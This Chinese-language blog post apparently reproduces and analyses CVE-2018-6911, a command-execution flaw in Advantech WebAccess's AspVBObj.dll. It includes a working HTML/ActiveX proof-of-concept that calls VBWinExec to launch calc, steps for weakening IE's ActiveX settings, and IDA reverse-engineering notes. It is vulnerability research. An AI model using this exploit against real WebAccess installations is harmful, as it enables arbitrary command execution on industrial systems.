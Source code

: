 ```yaml
---
title: CVE-2018-6911 Advantech WebAccess远程任意命令执行复现分析
date: 2021-02-06 17:25:48
tags:
cover: https://gitee.com/tutucoo/images/raw/master/uPic/Yx1Kja.jpg
---
```


## 漏洞概述 

Advantech Webaccess Node目录下的AspVBObj.dll文件中存在VBWinExec方法，该方法允许攻击者通过命令参数执行任意系统命令



## 环境准备

1.Windows 7 

2.Advantech WebAccess 8.2

3.IE 9



## 漏洞复现



 安装Advantech WebAccess 8.2

由于该漏洞是利用com组件，因此只要存在AspVBObj.dll文件即可完成EXP，安装完毕后，将EXP另存为html文件

```
<title>Advantech WebAccess Node8.3.0 "AspVBObj.dll" - Remote Code Execution</title>

<body> 
    <object id=rce classid="clsid:{55F52D11-CEA5-4D6C-9912-2C8FA03275CE}"></object>
    <SCRIPT>  
        function exploit() { 
            rce.VBWinExec("calc") 
        }  
    </SCRIPT> 
    <input language=JavaScript onclick=exploit() type=button value="Exploit-Me">
</body>

</HTML>	
```

打开IE选项-安全-自定义级别

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl3erp1j30d607wt9i.jpg)

 

设置“对未标记为可安全执行脚本的ActiveX控件初始化并执行”为启用

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl3xkx6j30es02qjrn.jpg)

 

 

 在Windows7上访问服务器的EXP网页，执行exp

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl05u9sj30gm06qq36.jpg)

  

命令顺利执行

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl4bvulj30c60dygnn.jpg)

 

 

 

## 漏洞原理

 

在html的object元素中定义clsid，可以用于Windows上的com组件的引用，clsid是该dll的统一唯一标识符，Windows中的com组件就是通过clsid来进行引用的。

根据它的clsid：{55F52D11-CEA5-4D6C-9912-2C8FA03275CE}在注册表中进行搜索

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl0mqggj30i007i74r.jpg)

 

可以找到它的键值，AspVBObj

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdl120kuj30rg0h0acu.jpg)

 

 

 

可以猜测这是它的一个dll文件，在C:\WebAccess\Node目录下找到AspVBObj.dll，拖进IDA进行逆向分析

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdkz7qmtj30fs0gy40m.jpg)

 

大致看一下功能实现没有找到可疑的地方，打开字符串小窗口看到一个VBWinExec函数

![img](https://gitee.com/tutucoo/images/raw/master/uPic/00831rSTgy1gckdkznvuej30ya0b2413.jpg)

 

根据经验可以判断这个很可能是个命令执行的函数，根据poc，可以看到这个命令执行的函数使用方法是直接传递字符串calc实现了弹出系统自带计算器

 

## 总结

经测试在Advantech WebAccess 8.2版本中也存在该漏洞，可以成功执行EXP，基于该漏洞的类型，影响的版本可能比较广泛。